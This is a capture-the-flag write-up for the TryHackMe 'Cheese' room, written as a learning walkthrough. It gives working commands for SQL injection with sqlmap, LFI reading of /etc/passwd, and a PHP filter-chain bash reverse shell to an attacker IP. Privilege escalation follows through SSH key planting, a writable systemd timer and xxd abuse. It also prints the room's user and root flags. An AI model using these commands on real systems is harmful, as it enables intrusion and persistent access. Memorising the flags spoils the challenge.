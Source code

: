 # As a traditional pentesing method, I first tried with directory enumeration where I found nothing. Simultaneously, I ran nmap looking for any open ports which gave more than 100+ ports. Hence, there was no clue in both of these tests. So now i decided to move towards sqli, since there was a login page and we had to find the user flag first, it means that we had to login as a user. Anyhow, lets try sqli now.

Moving forward towards the SQLi, I ran the command: [sqlmap -u "http://<IP_ADDRESS>/login.php" --data="username=test&password=test" --batch --dump]
Command Breakdown:
-> [sqlmap] : The tool being used, which automates the process of detecting and exploiting SQL injection vulnerabilities.
-> [-u "http://<IP_ADDRESS>/login.php"] : Specifies the target URL where the SQL injection will be tested.
-> [--data="username=test&password=test"] : Specifies the POST data being sent to the server. This simulates a login attempt with the username set to test and password set to test.
-> [--batch] : Runs the command in non-interactive mode. It automatically answers any prompts that sqlmap might generate, using the default or safest options. This is useful for automation or unattended testing.
-> [--dump] : Instructs sqlmap to dump the database contents if it successfully exploits the SQL injection vulnerability. This means it will retrieve and display the data stored in the database.

The detailed analysis on running this command is as follows:
SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as [id, username, password]. The single entry in the users table was retrieved as [ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c]. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
Moreover, it also gave a 302 redirect to [http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html]. The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url [http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd]. This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from [/etc/passwd], there is something [comte:x:1000:1000:comte:/home/comte:/bin/bash], which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.

Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github [https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py] that generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat [nc -lvnp YOUR_PORT]. Now run the command [python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt]. It will generate a lot of useful payloads. Now run the command [curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"]. This will give you a reverse shell in the directory [/var/www/html] on the terminal where you are running the netcat.

1. To get the user's flag, we have to search in his directory [/home/comte] that we also discovered previously. We have a [user.txt] in [/home/comte] but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download [linpeas.sh] using the command [wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh]. Now run a python server [python3 -m http.server 8000 --bind <YOUR_VPN_IP>]. Now run [wget http://<YOUR_VPN_IP>:8000/linpeas.sh] in the target machine, but before running this, move to [cd /tmp] so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run [chmod +x linpeas.sh] to grant permissions to the file. Now execute it [./linpeas.sh]. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                     
/dev/mqueue                                                                                                                                                           
/dev/shm
/etc/systemd/system/exploit.timer
/home/comte/.ssh/authorized_keys
/run/lock
/run/lock/apache2
/run/screen
/snap/core20/2015/run/lock
/snap/core20/2015/tmp
/snap/core20/2015/var/tmp
/snap/core20/2182/run/lock
/snap/core20/2182/tmp
/snap/core20/2182/var/tmp
/tmp
/tmp/linpeas.sh
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
```
[/home/comte/.ssh/authorized_keys] suggests that there are some authorized ssh keys that allow to login as comte. So we will also add our own ssh key so that we can also login as comte. In your local machine, login as root [sudo su] and generate a ssh key [ssh-keygen -t rsa]. The key will be saved in the path [/root/.ssh/id_rsa.pub]. Copy the key [cat /root/.ssh/id_rsa.pub] using this and write it in the target machine: [echo "key" > /home/comte/.ssh/authorized_keys]. Now we will be loggin in as comte in our own local machine [ssh -i /root/.ssh/id_rsa comte@<IP_ADDRESS>]. Now [cat /home/comte/user.txt] will give us the flag [THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}].

2. The root.txt file is present in the path [/root/root.txt], but we do not have permission to read it. Remember the file for which we had write permissions (mentioned above) [/etc/systemd/system/exploit.timer]. We can use it to run an exploit service. Move to the directory [cd /etc/systemd/system/] where we logged in as comte. Check the file contents [cat /etc/systemd/system/exploit.timer] and it will give some contents like this:
```
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```
Modify the line [OnBootSec=5s] using the command [nano exploit.timer]. Now run the following commands in the local terminal where we logged in as comte: [sudo systemctl daemon-reload], [sudo systemctl start exploit.timer], [systemctl status exploit.timer]. This will run and also confirm whether the run was successful or not. We will be again using the same ssh key to get the previlage of the root as well. Look for any method to gain sudo privileges in [https://gtfobins.github.io/]. Here we came to know that we can use [xxd] for the exploitation. Navigate to the directory [/opt] because the exploit scenario assumes we have write permissions there. Run the command [echo "key" | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"]. Now open another terminal in your local machine with [sudo su] and run the command [ssh -i /root/.ssh/id_rsa root@<IP_ADDRESS>]. This will login you as a root into Cheeze! Now just [cat /root/root.txt] and it will give the flag [THM{dca75486094810807faf4b7b0a929b11e5e0167c}].

